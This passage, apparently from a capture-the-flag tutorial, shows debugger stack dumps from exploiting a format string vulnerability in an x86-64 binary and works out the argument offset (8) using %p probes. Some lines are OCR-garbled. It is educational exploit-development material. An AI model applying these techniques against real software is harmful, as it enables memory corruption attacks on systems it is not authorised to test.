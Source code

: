 

At this point the stack is

```text

─────────────────────────────────────────────────────────[ code:i386:x86-64 ]────

     0x400b1a                  call   0x400758

0x400b1fe rdi, [rbp + 0x10]
     0x400b23                  mov    eax, 0x0

 →   0x400b28                  call   0x400770

   ↳    0x400770                  jmp    QWORD PTR [rip+0x20184a]        # 0x601fc0

0x400776 xchg ax, ax
        0x400778                  jmp    QWORD PTR [rip+0x20184a]        # 0x601fc8

0x40077e xchg ax, ax
────────────────────────────────────────────────────────────────────[ stack ]────

0x00007fffffffdb40│+0x00: 0x00007fffffffdb80  →  0x00007fffffffdc30  →  0x0000000000400eb0  →   push r15	 ← $rsp, $rbp

0x00007fffffffdb48│+0x08: 0x0000000000400d74  →   add rsp, 0x30

0x00007fffffffdb50│+0x10: "aaaaaaaa"	 ← $rdi

0x00007fffffffdb58│+0x18: 0x000000000000000a

0x00007fffffffdb60│+0x20: 0x7025702500000000

0x00007fffffffdb68│+0x28: "%p%p%p%p%p%p%p%pM\r@"

0x00007fffffffdb70│+0x30: "%p%p%p%pM\r@"

0x00007fffffffdb78│+0x38: 0x0000000000400d4d  →   cmp eax, 0x2

```



We can find that the user name we entered is in the third position on the stack, then the position of the format string itself is removed, and the offset is 5 + 3 = 8.


#### Change address


We will carefully observe the information of the stack at the breakpoint.


```text

0x00007fffffffdb40│+0x00: 0x00007fffffffdb80  →  0x00007fffffffdc30  →  0x0000000000400eb0  →   push r15	 ← $rsp, $rbp

0x00007fffffffdb48│+0x08: 0x0000000000400d74  →   add rsp, 0x30

0x00007fffffffdb50│+0x10: "aaaaaaaa"	 ← $rdi

0x00007fffffffdb58│+0x18: 0x000000000000000a

0x00007fffffffdb60│+0x20: 0x7025702500000000

0x00007fffffffdb68│+0x28: "%p%p%p%p%p%p%p%pM\r@"

```